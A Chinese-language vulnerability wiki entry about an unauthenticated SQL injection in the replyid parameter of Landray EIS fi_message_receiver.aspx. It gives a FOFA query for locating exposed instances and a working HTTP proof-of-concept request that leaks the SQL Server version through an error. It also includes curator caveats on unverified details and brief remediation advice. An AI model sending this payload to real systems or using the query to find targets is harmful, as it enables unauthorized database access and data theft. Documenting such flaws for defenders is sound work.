

# 蓝凌EIS fi_message_receiver.aspx replyid SQL注入

## 条目说明

- 对象与具体问题：蓝凌EIS；fi_message_receiver.aspx replyid SQL注入
- 版本、配置及部署条件：称2001年至2006年的版本，是否年份或版本串需核；SQL Server
- 认证与权限前提：声称未认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- CVE2025-22214与异常年份范围需对官方记录核对，不能扩写2001–2006全部版本
- fofa残缺body=；HTTP未围栏，错误响应仅图片
- 在野和文件写入RCE仅泛化风险，无实际证据

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

蓝凌EIS智慧协同平台 fi_message_receiver.aspx 接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

## 影响版本

Landray EIS 2001年至2006年的版本

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="/Scripts/jquery.landray.dialog.js"

POC/EXP：

```http
GET /Message/fi_message_receiver.aspx?replyid=1%20and%201=@@version--+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```





## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
